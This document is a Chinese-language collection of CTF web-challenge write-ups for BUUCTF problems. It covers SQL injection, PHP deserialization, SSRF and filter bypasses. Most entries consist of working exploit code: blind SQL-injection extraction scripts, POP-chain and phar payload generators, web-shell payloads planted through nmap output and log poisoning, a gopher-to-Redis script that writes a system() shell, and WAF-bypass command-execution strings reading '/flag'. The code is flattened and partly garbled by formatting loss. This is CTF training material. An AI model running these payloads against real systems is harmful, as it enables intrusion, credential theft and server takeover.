

[WUSTCTF2020]颜值成绩查询 过滤了空格，二分法加速
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import requestsurl="http://6c6632ed-b699-4348-8797-2d933e374f2c.node3.buuoj.cn/?stunum=" flag='' for i in range (1 ,100 ): low=32 high=127 mid=(low+high)//2 while (high>low): payload="if(ascii(substr((select/**/group_concat(value)from(flag)),%d,1))>%d,1,0)" %(i,mid) r=requests.get(url+payload) if "your score is: 100" in r.text: low=mid+1 else : high=mid mid=(low+high)//2 if (chr (mid)==" " ): break flag+=chr (mid) print(flag)
[MRCTF2020]Ezpop 首页给了我们源码，需要构造反序列化的pop链
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 class Modifier protected $var ; public function append ($value include ($value ); } public function __invoke ( $this ->append($this ->var); } } class Show public $source ; public $str ; public function __construct ($file ='index.php' $this ->source = $file ; echo 'Welcome to ' .$this ->source."<br>" ; } public function __toString ( return $this ->str->source; } public function __wakeup ( if (preg_match("/gopher|http|file|ftp|https|dict|\.\./i" , $this ->source)) { echo "hacker" ; $this ->source = "index.php" ; } } } class Test public $p ; public function __construct ( $this ->p = array (); } public function __get ($key $function = $this ->p; return $function (); } }
思路：首先触发Show类的 __wakeup方法，调用preg_math这个函数，把Show实例为source做字符串比较，从而触发 __toString，因为Test类中有一个 __get方法，而 __get方法需要获取不可访问的属性才能调用，而 __toString访问的是str的source，如果把str实例化成Test，因为Test类没有source，从而调用 __get方法，而 __get方法可以把p变成函数，刚好 __invoke方法需要将对象以函数形式调用才触发，将p实例化成Modifier就可以调用 __invoke，然后 __invoke调用append，把value写入，这时候利用php伪协议把flag.php包含进来，从而获得flag,最后再次调用 __toString输出内容
pop链: Show类 -> __wakeup -> __toString -> Test类 -> __get -> Modifier类 -> __invoke
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php class Modifier protected $var ='php://filter/read=convert.base64-encode/resource=flag.php' ; } class Show public $source ; public $str ; public function __construct ($file $this ->source = $file ; } } class Test public $p ; } $a = new Show('a' );$a ->str = new Test();$a ->str->p = new Modifier();$a = new Show($a );echo urlencode(serialize($a ));?>
解出来之后，以GET形式给pop传参，然后base64解密就得到flaghttps://www.cnblogs.com/karsa/p/12806945.html
[NPUCTF2020]ReadlezPHP 在F12中找到网站的源码 ./time.php?source，获取源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <?php class HelloPhp public $a ; public $b ; public function __construct ( $this ->a = "Y-m-d h:i:s" ; $this ->b = "date" ; } public function __destruct ( $a = $this ->a; $b = $this ->b; echo $b ($a ); } } $c = new HelloPhp;if (isset ($_GET ['source' ])){ highlight_file(__FILE__ ); die (0 ); } @$ppp = unserialize($_GET ["data" ]);
一个简单的反序列化漏洞，调用 __destruct 来执行$b($a),发现system被禁用，于是用assert函数
1 2 3 4 5 6 7 8 9 10 11 <?php class HelloPhp public $a ; public $b ; } $c = new HelloPhp;$c ->b='assert' ;$c ->a='eval($_REQUEST["cmd"])' ;echo serialize($c );?>
反序列化
1 O:8 :"HelloPhp" :2 :{s:1 :"a" ;s:22 :"eval($_REQUEST [" cmd"])" ;s:1 :"b" ;s:6 :"assert" ;}
大佬说flag在phpinfo里面，最终payload如下
1 time.php?data=O:8 :"HelloPhp" :2 :{s:1 :"a" ;s:22 :"eval($_REQUEST [" cmd"])" ;s:1 :"b" ;s:6 :"assert" ;}&cmd=phpinfo();
[BJDCTF 2nd]xss之光 .git泄露 用GitHack获取源码
1 2 3 <?php $a = $_GET ['yds_is_so_beautiful' ];echo unserialize($a );
发现没有类，但是有个echo，可以使用 __toString方法进行反序列化，利用PHP原生类来构造payload， __toString有两个类可以利用，其中Error适用于php7版本，Exception适用于php5、7版本。因为题目是php5的版本，所以使用Exception类
1 2 3 4 <?php $a = new Exception ("<script>alert(document.cookie)</script>" );echo urlencode(serialize($a ));?>
将序列化的结果传参给yds_is_so_beautiful，弹出flaghttps://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label2
[网鼎杯 2020 朱雀组]phpweb 封面每隔几秒就刷新一次，用burp抓包发现了POST传参 func=date&p=Y-m-d+h%3Ai%3As+afunc=file_get_contents&p=index.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 <?php $disable_fun = array ("exec" ,"shell_exec" ,"system" ,"passthru" ,"proc_open" ,"show_source" ,"phpinfo" ,"popen" ,"dl" ,"eval" ,"proc_terminate" ,"touch" ,"escapeshellcmd" ,"escapeshellarg" ,"assert" ,"substr_replace" ,"call_user_func_array" ,"call_user_func" ,"array_filter" , "array_walk" , "array_map" ,"registregister_shutdown_function" ,"register_tick_function" ,"filter_var" , "filter_var_array" , "uasort" , "uksort" , "array_reduce" ,"array_walk" , "array_walk_recursive" ,"pcntl_exec" ,"fopen" ,"fwrite" ,"file_put_contents" ); function gettime ($func , $p $result = call_user_func($func , $p ); $a = gettype($result ); if ($a == "string" ) { return $result ; } else {return "" ;} } class Test var $p = "Y-m-d h:i:s a" ; var $func = "date" ; function __destruct ( if ($this ->func != "" ) { echo gettime($this ->func, $this ->p); } } } $func = $_REQUEST ["func" ]; $p = $_REQUEST ["p" ]; if ($func != null ) { $func = strtolower($func ); if (!in_array($func ,$disable_fun )) { echo gettime($func , $p ); }else { die ("Hacker..." ); } } ?>
过滤了很多东西，类中有魔术方法想到了反序列化，而可以通过回调函数绕过disable_fun
1 2 3 4 5 6 7 8 9 <?php class Test var $p = "ls" ; var $func = "system" ; } echo serialize(new Test);?>
https://blog.csdn.net/gd_9988/article/details/106181577?fps=1&locationNum=2
[Zer0pts2020]Can you guess it? 外国的签到题… 一开始就给了源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 <?php include 'config.php' ; if (preg_match('/config\.php\/*$/i' , $_SERVER ['PHP_SELF' ])) { exit ("I don't know what you are thinking, but I won't let you read it :)" ); } if (isset ($_GET ['source' ])) { highlight_file(basename($_SERVER ['PHP_SELF' ])); exit (); } $secret = bin2hex(random_bytes(64 ));if (isset ($_POST ['guess' ])) { $guess = (string ) $_POST ['guess' ]; if (hash_equals($secret , $guess )) { $message = 'Congratulations! The flag is: ' . FLAG; } else { $message = 'Wrong.' ; } } ?> <!doctype html> <html lang="en" > <head> <meta charset="utf-8" > <title>Can you guess it?</title> </head> <body> <h1>Can you guess it?</h1> <p>If your guess is correct, I'll give you the flag.</p> <p><a href="?source">Source</a></p> <hr> <?php if (isset($message)) { ?> <p><?= $message ?></p> <?php } ?> <form action="index.php" method="POST"> <input type="text" name="guess"> <input type="submit"> </form> </body> </html>
现在有两个方向可以走，一个是绕过preg_match的过滤访问config.php得到flag，还有一个是爆破$secret，除非你有天河二号，不然还是算了
preg_match匹配了config.php加任意个数的/为结尾的字符，用basename来获取文件名 ,只需要在末尾添加其他的东西就可以绕过过滤，但是直接加%00会400错误。 重点来了，basename存在一些编码问题，当没有使用setlocale来设置编码的时候会出现乱码，而basename取值时会忽略掉这些乱码，那就可以利用乱码绕过preg_match的过滤，同时basename又可以正常取得文件名
1 2 3 4 5 payload1: index.php/config.php/这样就可以了/?source payload2（超过ascill码 0x80 ~0xff ）: index.php/config.php/%ff/?source
[BJDCTF 2nd]简单注入 首页是登录框，结合题目名称是注入没的跑了，测试了一下过滤的东西不算多，并且在robots.txt找到了hint.txt
1 select * from users where username='$_POST["username"]' and password='$_POST["password"]' ;
过滤了引号，可以用 \来转义
1 2 3 4 5 6 在username输入 admin\ ，password输入123 # select * from users where username= 'admin\' and password = '123#' ;因为admin后面的引号被转义了变成 select * from users where username = 'admin and password = ' 123 #;现在sql 语句变成了数字型注入，只需要在password输入payload即可
二分法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import requestsurl='http://51ee3a61-41c1-4b04-a848-359d188d0bc1.node3.buuoj.cn/index.php' flag='' for i in range (1 ,100 ): low = 32 high = 127 mid = low + high // 2 while (high>low): payload="or ascii(substr(password,%d,1))>%d#" %(i,mid) data={ "username" : "admin\\" , "password" : payload } r = requests.post(url,data=data) if "BJD needs to be stronger" in r.text: low = mid +1 else : high = mid mid=(low + high) // 2 if (chr (mid) == " " ): break flag+=chr (mid) print(flag)
执行结果为OhyOuFOuNdit，输入帐号admin，密码OhyOuFOuNdit 获得flag
[网鼎杯 2018]Fakebook 先申请一个帐号，登入之后发现/view.php?no=1 存在注入点
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 view.php?no=1 order by 4 四个字段 view.php?no=0 unionselect 1 ,2 ,3 ,4 第二字段是显示位 view.php?no=0 unionselect 1 ,group_concat(table_name),3 ,4 from information_schema.tables where table_schema=database() 表名：users view.php?no=0 unionselect 1 ,group_concat(column_name),3 ,4 from information_schema.columns where table_name='users' 字段名：no,username,passwd,data view.php?no=0 unionselect 1 ,group_concat(data),3 ,4 from users 数据： O:8 :"UserInfo" :3 :{s:4 :"name" ;s:4 :"test" ;s:3 :"age" ;i:11 ;s:4 :"blog" ;s:8 :"test.com" ;}
发现data的数据是我们注册用户信息经过反写列化的结果，并且在robots.txt发现了user.php.bak，下载获取源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 <?php class UserInfo public $name = "" ; public $age = 0 ; public $blog = "" ; public function __construct ($name , $age , $blog { $this ->name = $name ; $this ->age = (int )$age ; $this ->blog = $blog ; } function get ($url { $ch = curl_init(); curl_setopt($ch , CURLOPT_URL, $url ); curl_setopt($ch , CURLOPT_RETURNTRANSFER, 1 ); $output = curl_exec($ch ); $httpCode = curl_getinfo($ch , CURLINFO_HTTP_CODE); if ($httpCode == 404 ) { return 404 ; } curl_close($ch ); return $output ; } public function getBlogContents ( { return $this ->get($this ->blog); } public function isValidBlog ( { $blog = $this ->blog; return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i" , $blog ); } }
源码存在ssrf漏洞，思路：将反序列化中的blog属性构造成file文件协议再利用ssrf读取flag.php
1 2 3 4 5 6 7 8 9 10 11 12 <?php class UserInfo public $name = "" ; public $age = 0 ; public $blog = "file:///var/www/html/flag.php" ; } echo serialize(new UserInfo);?> O:8 :"UserInfo" :3 :{s:4 :"name" ;s:0 :"" ;s:3 :"age" ;i:0 ;s:4 :"blog" ;s:29 :"file:///var/www/html/flag.php" ;}
最终payload：?no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
非预期解法：/view.php?no=0 union/**/select 1,load_file('/var/www/html/flag.php'),3,4
[SWPUCTF 2018]SimplePHP 点击“查看文件”，可以看到URL栏上面是file.php?file= 可以试一下文件包含，获取了其他文件的源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php header("content-type:text/html;charset=utf-8" ); include 'function.php' ; include 'class.php' ; ini_set('open_basedir' ,'/var/www/html/' ); $file = $_GET ["file" ] ? $_GET ['file' ] : "" ; if (empty ($file )) { echo "<h2>There is no file to show!<h2/>" ; } $show = new Show(); if (file_exists($file )) { $show ->source = $file ; $show ->_show(); } else if (!empty ($file )){ die ('file doesn\'t exists.' ); } ?>
class.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 <?php class C1e4r public $test ; public $str ; public function __construct ($name { $this ->str = $name ; } public function __destruct ( { $this ->test = $this ->str; echo $this ->test; } } class Show public $source ; public $str ; public function __construct ($file { $this ->source = $file ; echo $this ->source; } public function __toString ( { $content = $this ->str['str' ]->source; return $content ; } public function __set ($key ,$value { $this ->$key = $value ; } public function _show ( { if (preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i' ,$this ->source)) { die ('hacker!' ); } else { highlight_file($this ->source); } } public function __wakeup ( { if (preg_match("/http|https|file:|gopher|dict|\.\./i" , $this ->source)) { echo "hacker~" ; $this ->source = "index.php" ; } } } class Test public $file ; public $params ; public function __construct ( { $this ->params = array (); } public function __get ($key { return $this ->get($key ); } public function get ($key { if (isset ($this ->params[$key ])) { $value = $this ->params[$key ]; } else { $value = "index.php" ; } return $this ->file_get($value ); } public function file_get ($value { $text = base64_encode(file_get_contents($value )); return $text ; } } ?>
function.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 <?php include "base.php" ; header("Content-type: text/html;charset=utf-8" ); error_reporting(0 ); function upload_file_do ( global $_FILES ; $filename = md5($_FILES ["file" ]["name" ].$_SERVER ["REMOTE_ADDR" ]).".jpg" ; if (file_exists("upload/" . $filename )) { unlink($filename ); } move_uploaded_file($_FILES ["file" ]["tmp_name" ],"upload/" . $filename ); echo '<script type="text/javascript">alert("上传成功!");</script>' ; } function upload_file ( global $_FILES ; if (upload_file_check()) { upload_file_do(); } } function upload_file_check ( global $_FILES ; $allowed_types = array ("gif" ,"jpeg" ,"jpg" ,"png" ); $temp = explode("." ,$_FILES ["file" ]["name" ]); $extension = end($temp ); if (empty ($extension )) { } else { if (in_array($extension ,$allowed_types )) { return true ; } else { echo '<script type="text/javascript">alert("Invalid file!");</script>' ; return false ; } } } ?>
class.php明显是构造POP链，但是源码中没有unserialize，但是源码中注释了phar://加上这题有文件函数file_exists，疯狂暗示phar反序列化
可以通过反推来获取flag，最后一步肯定是利用file_get_contents获取文件内容，那么就需要调用Test类的 __get函数，而 __get需要读取不可访问的属性数据才会调用，在Show类中 __ToString会访问str[‘str’]->source，刚好Test类没有source属性，这样就可以调用 __get，那要如何调用Show类中的 __ToString，在C1e4r类中有 __destruct方法可以echo $this->$test，就可以调用Show类中的 __ToString，通过一系列调用获取f1ag.phpPOP链： C1e4r -> __destruct -> Show -> __toString -> Test -> __get
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 <?php class C1e4r public $test ; public $str ; } class Show public $source ; public $str ; } class Test public $file ; public $params ; } $c1e4r = new C1e4r();$show = new Show();$test = new Test();$c1e4r ->str = $show ;$show ->str['str' ] = $test ;$test ->params['source' ] = "/var/www/html/f1ag.php" ; $phar = new Phar("test.phar" ); $phar ->startBuffering();$phar ->setStub('<?php __HALT_COMPILER(); ? >' );$phar ->setMetadata($c1e4r ); $phar ->addFromString("test.txt" , "test" ); $phar ->stopBuffering();?>
最终需要会生成一个.phar的文件，因为题目要白名单限制，采用.jpg的格式进行上传，文件名虽然是随机的，但是上传之后可以在upload的目录下找到上传的文件,file.php?file=phar://upload/646c215b0c6e6dd75aa7797ab3eed5e2.jpg
[SUCTF 2018]annonymous 1 2 3 4 5 6 7 8 9 10 11 12 13 <?php $MY = create_function("" ,"die(`cat flag.php`);" );$hash = bin2hex(openssl_random_pseudo_bytes(32 ));eval ("function SUCTF_$hash (){" ."global \$MY;" ."\$MY();" ."}" ); if (isset ($_GET ['func_name' ])){ $_GET ["func_name" ](); die (); } show_source(__FILE__ );
只需要执行匿名函数就可以了，实际上匿名函数是有名字的，格式：%00lambda_%d，其中%d是递增的，可以通过发送大量请求来使Pre-fork模式启动，Apache会开启新线程，这样%d就为1了
1 2 3 4 5 6 7 8 9 import requestsurl='http://b3f2570f-fd14-4300-aae2-522f41d460cf.node3.buuoj.cn/?func_name=%00lambda_1' while True : r=requests.get(url) if 'flag' in r.text: print r.text break print('loading' )
https://blog.csdn.net/mochu7777777/article/details/105225558
[网鼎杯 2020 朱雀组]Nmap nmap的命令注入，参考之前的题目[BUUCTF 2018]Online Tool，因为过滤了关键词php，可以用短标签和phtml进行绕过' -oG hack.phtml <?= eval($_GET["cmd"]);?>'/hack.phtml?cmd=readfile('/flag');即可
[GXYCTF2019]StrongestMind 计算正确一千次即可
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 import requestsimport reimport timeurl="http://7751d9da-8566-4f7c-a49b-168c3d0158f7.node3.buuoj.cn/" s=requests.session() r=s.get(url) digital=re.findall(r'[0-9]+ [-+] [0-9]+' ,r.text.encode("utf-8" )) math=eval (digital[0 ]) s.post(url,data={"answer" :math}) for i in range (1002 ): digital=re.findall(r'[0-9]+ [-+] [0-9]+' ,r.text.encode("utf-8" )) math=eval (digital[0 ]) print("第%d次，%s=%d" %(i,digital[0 ],math)) r=s.post(url,data={"answer" : math}) time.sleep(0.01 ) print(r.text)
[网鼎杯 2020 青龙组]AreUSerialz 源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 <?php include ("flag.php" );highlight_file(__FILE__ ); class FileHandler protected $op ; protected $filename ; protected $content ; function __construct ( $op = "1" ; $filename = "/tmp/tmpfile" ; $content = "Hello World!" ; $this ->process(); } public function process ( if ($this ->op == "1" ) { $this ->write(); } else if ($this ->op == "2" ) { $res = $this ->read(); $this ->output($res ); } else { $this ->output("Bad Hacker!" ); } } private function write ( if (isset ($this ->filename) && isset ($this ->content)) { if (strlen((string )$this ->content) > 100 ) { $this ->output("Too long!" ); die (); } $res = file_put_contents($this ->filename, $this ->content); if ($res ) $this ->output("Successful!" ); else $this ->output("Failed!" ); } else { $this ->output("Failed!" ); } } private function read ( $res = "" ; if (isset ($this ->filename)) { $res = file_get_contents($this ->filename); } return $res ; } private function output ($s echo "[Result]: <br>" ; echo $s ; } function __destruct ( if ($this ->op === "2" ) $this ->op = "1" ; $this ->content = "" ; $this ->process(); } } function is_valid ($s for ($i = 0 ; $i < strlen($s ); $i ++) if (!(ord($s [$i ]) >= 32 && ord($s [$i ]) <= 125 )) return false ; return true ; } if (isset ($_GET {'str' })) { $str = (string )$_GET ['str' ]; if (is_valid($str )) { $obj = unserialize($str ); } }
因为filename可控，可以让op为2,进入read函数，利用伪协议和file_get_contents函数来读取文件。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php class FileHandler public $op =2 ; public $filename ="php://filter/read=convert.base64-encode/resource=flag.php" ; public $content ; } $a =new FileHandler();echo serialize($a );?> O:11 :"FileHandler" :3 :{s:2 :"op" ;i:2 ;s:8 :"filename" ;s:57 :"php://filter/read=convert.base64-encode/resource=flag.php" ;s:7 :"content" ;N;}
[CISCN2019总决赛 Day2 Web1]Easyweb 访问robots.txt，找到了*.php.bak，看了WP才知道是image.php.bak，访问并下载下来
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php include "config.php" ;$id =isset ($_GET ["id" ])?$_GET ["id" ]:"1" ;$path =isset ($_GET ["path" ])?$_GET ["path" ]:"" ;$id =addslashes($id );$path =addslashes($path );$id =str_replace(array ("\\0" ,"%00" ,"\\'" ,"'" ),"" ,$id );$path =str_replace(array ("\\0" ,"%00" ,"\\'" ,"'" ),"" ,$path );$result =mysqli_query($con ,"select * from images where id='{$id} ' or path='{$path} '" );$row =mysqli_fetch_array($result ,MYSQLI_ASSOC);$path ="./" . $row ["path" ];header("Content-Type: image/jpeg" ); readfile($path ); ?>
可以看到先是用addslashes函数再用str_replace替换,如果用/image.php?id=\0'&path= or 1=1%23
1 select * from users where id= '\' or path= ' or 1=1#
这样就可以利用path进行注入
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import requestsurl="http://020b82a1-0db2-45e7-a049-97e22718906d.node3.buuoj.cn/image.php?id=\\0'&path=" flag='' for i in range (1 ,100 ): high=127 low=32 mid=(low+high)//2 while (high>low): payload=" or ascii(substr((select password from users),%d,1))>%d%%23" %(i,mid) r=requests.get(url+payload) if 'JFIF' in r.text: low=mid+1 else : high=mid mid=(low+high)//2 if chr (mid) == " " : break flag+=chr (mid) print flag
得到密码，进行登入后可以进行文件上传，并且上传的文件名会被保存到日志中，那么就可以将文件名修改成一句话木马污染日志。因为过滤了PHP，用短标签绕过logs/upload.ddb451a34135969fe06a4daddbb874dc.log.php?cmd=system('cat /flag'); 获得flag
[GXYCTF2019]禁止套娃 .git泄漏获得源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php include "flag.php" ;echo "flag在哪里呢？<br>" ;if (isset ($_GET ['exp' ])){ if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i' , $_GET ['exp' ])) { if (';' === preg_replace('/[a-z,_]+\((?R)?\)/' , NULL , $_GET ['exp' ])) { if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i' , $_GET ['exp' ])) { @eval ($_GET ['exp' ]); } else { die ("还差一点哦！" ); } } else { die ("再好好想想！" ); } } else { die ("还想读flag，臭弟弟！" ); } } ?>
第一层过滤了常用的协议，第二层的正则?R引用当前表达式只能使用无参数函数，如a(b())为合法，而a(“bbb”)则为不合法，第三层过滤了一些函数的关键字。现在只能构造无参数的RCE来读取flag.php
首先要读取当前目录下的文件，localeconv函数返回包含本地数字及货币格式信息的数组，而返回第一个值为.，current函数返回数组当前元素的值，默认返回第一个元素，这样就构造scandir(.)读取当前文件目录?exp=print_r(scandir(current(localeconv())));
下一步是读取目录下的flag.php文件，用array_reverse函数逆序输出，再用next函数使指针指向下一个即flag.php，最后用hightlight_file函数读取flag?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));
https://blog.csdn.net/weixin_44348894/article/details/105568428 无参数RCE
[NCTF2019]SQLi 页面直接给了sql语句
1 sqlquery : select * from users where username= '' and passwd= ''
但是fuzz之后发现过滤了很多。同时发现网页存在hint.txt，给了黑名单
1 2 3 4 5 $black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i" ;If $_POST ['passwd' ] === admin's password, Then you will get the flag;
过滤了单引号，但是没有过滤转义字符\，那么可以转义and前面的单引号，在passwd处用regexp来匹配密码，最后用%00来截断后面的内容（如果直接在输入框提交会被URL encode 变成%2500 被黑名单过滤）username=\和passwd=||/**/passwd/**/regexp/**/^a;%00
1 select * from users where username= '\' and passwd= '||/**/passwd/**/regexp/**/"^a";
脚本如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import requestsurl="http://6adeb9f4-5920-40da-839a-8af9106f2523.node3.buuoj.cn/index.php" string="1234567890_qwertyuiopasdfghjklzxcvbnm" password="" for i in range (1 ,100 ): for j in string: data= { "username" : "\\" , "passwd" :"||/**/passwd/**/regexp/**/\"^{0}\";{1}" .format ((password+j),chr (0 )) } r=requests.post(url,data=data) print(data) if "welcome" in r.text: password+=j print(password) break if "welcome" not in r.text: break print(password)
https://blog.csdn.net/weixin_43610673/article/details/106029042
[GKCTF2020]EZ三剑客-EzWeb 右击查看源码找到了<!--?secret-->，在url输入返回了ifconfig的信息，显示ip：173.93.68.10。猜测这里可以利用SSRF对内网进行扫描，于是用burpsuite对c段和端口进行爆破，最终爆破出173.93.86.11开放了6379端口，说明该主机存在redis服务，那么大概率利用SSRF和redis来getshell。
利用脚本来源于浅析Redis中SSRF的利用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 import urllibprotocol="gopher://" ip="173.93.86.11" port="6379" shell="\n\n<?php system(\"cat /flag\");?>\n\n" filename="shell.php" path="/var/www/html" passwd="" cmd=["flushall" , "set 1 {}" .format (shell.replace(" " ,"${IFS}" )), "config set dir {}" .format (path), "config set dbfilename {}" .format (filename), "save" ] if passwd: cmd.insert(0 ,"AUTH {}" .format (passwd)) payload=protocol+ip+":" +port+"/_" def redis_format (arr ): CRLF="\r\n" redis_arr = arr.split(" " ) cmd="" cmd+="*" +str (len (redis_arr)) for x in redis_arr: cmd+=CRLF+"$" +str (len ((x.replace("${IFS}" ," " ))))+CRLF+x.replace("${IFS}" ," " ) cmd+=CRLF return cmd if __name__=="__main__" : for x in cmd: payload += urllib.quote(redis_format(x)) print payload
将生成的payload输入到index.php的输入框中，然后访问?url=173.93.86.11%2Fshell.php&submit=提交就可以获得flaghttps://blog.csdn.net/qq_45521281/article/details/106532501
[CISCN 2019 初赛]Love Math 这种题只能多积累了。。。 题目给了源码，绕过WAF进行RCE
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 <?php error_reporting(0 ); if (!isset ($_GET ['c' ])){ show_source(__FILE__ ); }else { $content = $_GET ['c' ]; if (strlen($content ) >= 80 ) { die ("太长了不会算" ); } $blacklist = [' ' , '\t' , '\r' , '\n' ,'\'' , '"' , '`' , '\[' , '\]' ]; foreach ($blacklist as $blackitem ) { if (preg_match('/' . $blackitem . '/m' , $content )) { die ("请不要输入奇奇怪怪的字符" ); } } $whitelist = ['abs' , 'acos' , 'acosh' , 'asin' , 'asinh' , 'atan2' , 'atan' , 'atanh' , 'base_convert' , 'bindec' , 'ceil' , 'cos' , 'cosh' , 'decbin' , 'dechex' , 'decoct' , 'deg2rad' , 'exp' , 'expm1' , 'floor' , 'fmod' , 'getrandmax' , 'hexdec' , 'hypot' , 'is_finite' , 'is_infinite' , 'is_nan' , 'lcg_value' , 'log10' , 'log1p' , 'log' , 'max' , 'min' , 'mt_getrandmax' , 'mt_rand' , 'mt_srand' , 'octdec' , 'pi' , 'pow' , 'rad2deg' , 'rand' , 'round' , 'sin' , 'sinh' , 'sqrt' , 'srand' , 'tan' , 'tanh' ]; preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/' , $content , $used_funcs ); foreach ($used_funcs [0 ] as $func ) { if (!in_array($func , $whitelist )) { die ("请不要输入奇奇怪怪的函数" ); } } eval ('echo ' .$content .';' ); }
下面就直接贴大佬 的思路
1 2 3 4 5 6 $pi =base_convert(37907361743 ,10 ,36 )(dechex(1598506324 ));($$pi ){pi}(($$pi ){abs})&pi=system&abs=tac flag.php分析: base_convert(37907361743 ,10 ,36 ) => "hex2bin" dechex(1598506324 ) => "5f474554" $pi =hex2bin("5f474554" ) => $pi ="_GET" ($$pi ){pi}(($$pi ){abs}) => ($_GET ){pi}($_GET ){abs}
payload2:
1 2 3 4 5 6 7 8 $pi =base_convert,$pi (696468 ,10 ,36 )($pi (8768397090111664438 ,10 ,30 )(){1 })分析: base_convert(696468 ,10 ,36 ) => "exec" $pi (8768397090111664438 ,10 ,30 ) => "getallheaders" exec(getallheaders(){1 }) echo xx,yy
payload3:
1 2 3 4 ($pi =base_convert)(22950 ,23 ,34 )($pi (76478043844 ,9 ,34 )(dechex(109270211257898 ))) base_convert(1751504350 ,10 ,36 )(base_convert(15941 ,10 ,36 ).(dechex(16 )^asinh^pi))
或者利用fuzz脚本找到并拼接成_GET
1 2 3 4 5 6 7 8 9 10 11 <?php $payload = ['abs' , 'acos' , 'acosh' , 'asin' , 'asinh' , 'atan2' , 'atan' , 'atanh' , 'bindec' , 'ceil' , 'cos' , 'cosh' , 'decbin' , 'decoct' , 'deg2rad' , 'exp' , 'expm1' , 'floor' , 'fmod' , 'getrandmax' , 'hexdec' , 'hypot' , 'is_finite' , 'is_infinite' , 'is_nan' , 'lcg_value' , 'log10' , 'log1p' , 'log' , 'max' , 'min' , 'mt_getrandmax' , 'mt_rand' , 'mt_srand' , 'octdec' , 'pi' , 'pow' , 'rad2deg' , 'rand' , 'round' , 'sin' , 'sinh' , 'sqrt' , 'srand' , 'tan' , 'tanh' ];for ($k =1 ;$k <=sizeof($payload );$k ++){ for ($i = 0 ;$i < 9 ; $i ++){ for ($j = 0 ;$j <=9 ;$j ++){ $exp = $payload [$k ] ^ $i .$j ; echo ($payload [$k ]."^$i $j " ."==>$exp " ); echo "<br />" ; } } }
payload4:
1 ?c=$pi =(is_nan^(6 ).(4 )).(tan^(1 ).(5 ));$pi =$$pi ;$pi {0 }($pi {1 })&0 =system&1 =cat%20 /flag
[BJDCTF2020]EasySearch 该网站存在index.php.swp信息泄漏，直接获取源码
